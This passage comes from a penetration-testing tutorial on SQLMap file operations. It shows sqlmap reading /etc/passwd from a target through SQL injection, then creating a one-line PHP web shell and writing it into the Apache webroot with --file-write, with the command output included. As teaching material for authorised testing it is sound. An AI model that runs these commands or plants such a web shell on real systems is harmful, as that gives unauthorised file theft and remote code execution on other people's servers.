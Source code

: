     [17:40:14] [INFO] the local file '~/.sqlmap/output/www.example.com/files/_etc_passwd' and the remote file '/etc/passwd' have the same   size (982 B)
    files saved to [1]:
    [*] ~/.sqlmap/output/www.example.com/files/_etc_passwd (same file)

    [*] ending @ 17:40:14 /2020-11-19/

As we can see, SQLMap said `files saved` to a local file. We can `cat` the local file to see its content:

`cat ~/.sqlmap/output/www.example.com/files/_etc_passwd`

    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    ...SNIP...

We have successfully retrieved the remote file.

### Writing Local Files

When it comes it writing files to the hosting server, it becomes much more restricted in modern DMBSes, since we can utilize this to write a Web Shell on the remote server, and hence get code execution and take over the server.

This is why modern DBMSes disable file-write by default and need certain privileges for DBA's to be able to write files. For example, in MySql, the `--secure-file-priv` configuration must be manually disabled to allow writing data into local files using the `INTO OUTFILE` SQL query, in addition to any local access needed on the host server, like the privilege to write in the directory we need.

Still, many web applications require the ability for DBMSes to write data into files, so it is worth testing whether we can write files to the remote server. To do that with SQLMap, we can use the `--file-write` and `--file-dest` options. First, let's prepare a basic PHP web shell and write it into a `shell.php` file:

`echo '<?php system($_GET["cmd"]); ?>' > shell.php`

Now, let's attempt to write this file on the remote server, in the `/var/www/html/` directory, the default server webroot for Apache. If we didn't know the server webroot, we will see how SQLMap can automatically find it.

`sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"`

    [*] starting @ 17:54:18 /2020-11-19/

    [17:54:19] [INFO] resuming back-end DBMS 'mysql'
    [17:54:19] [INFO] testing connection to the target URL
    sqlmap resumed the following injection point(s) from stored session:
    ...SNIP...
    do you want confirmation that the local file 'shell.php' has been successfully written on the back-end DBMS file system ('/var/www/ html/shell.php')? [Y/n] y

    [17:54:28] [INFO] the local file 'shell.php' and the remote file '/var/www/html/shell.php' have the same size (31 B)

    [*] ending @ 17:54:28 /2020-11-19/
